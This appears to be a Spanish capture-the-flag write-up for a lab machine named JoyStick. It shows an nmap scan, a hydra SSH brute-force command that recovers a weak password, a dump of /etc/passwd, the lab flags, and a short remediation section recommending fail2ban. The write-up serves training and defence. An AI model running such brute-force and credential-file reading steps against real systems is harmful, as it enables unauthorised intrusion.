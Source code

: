 # JoyStick
Room Sencillita ,un poco disgusting ya que es solo bruteforcing
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
|   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
|_  256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: JoyStick Gaming
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enum

### HTTP

```html
<!-- Zach, I don't care that you named your user steve. You still need to finish making the website -->
<!-- Great, and now the FTP server just doesn't work. Just another great idea after	your failed irc chat. Why would we use that when we have in game chat? 
Not to mention that I know you still haven't reset your password.  -->
```

Por lo que se ve tenemos un usuario llamado Steve con creds faciles de averiguar

### SSH

Vamos a hacerle bruteforcing
```
hydra -l steve -P rockyou.txt 10.10.101.140 -t 16 ssh
[22][ssh] host: 10.10.101.140   login: steve   password: changeme
```

Accedemos con las creds y ya tenemos acceso a la primera flag
```
flag{is_only_gaem}
```
### Privesc

```
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:Notch,,,:/home/notch:/bin/bash
minecraft:x:1001:1001:Mine,,,:/home/minecraft:/bin/bash
```
Tras enumerar usuarios me di cuenta de qeu tenia acceso a los otros /home, en el de Notch hay un root.txt

Lo podemos leer y así conseguir la otra flag

```
flag{poorly_configured_permissions}
```
# Analisis de la intrusión
### SSH Bruteforcing allowed
No existe ningún tipo de medida para evitar ataques por fuerza bruta contra el servidor 
### Bad password police
Se ha permitido el uso de contraseñas poco seguras a los usurios lo cual ha permitido ejecutar un ataque de fuerza bruta con exito

# Soluciones
### SSH Bruteforcing allowed
Utilizar algún tipo de protección como fail2ban en el servidor sería altamaente recomendables de cara a evitar este tipo de ataques
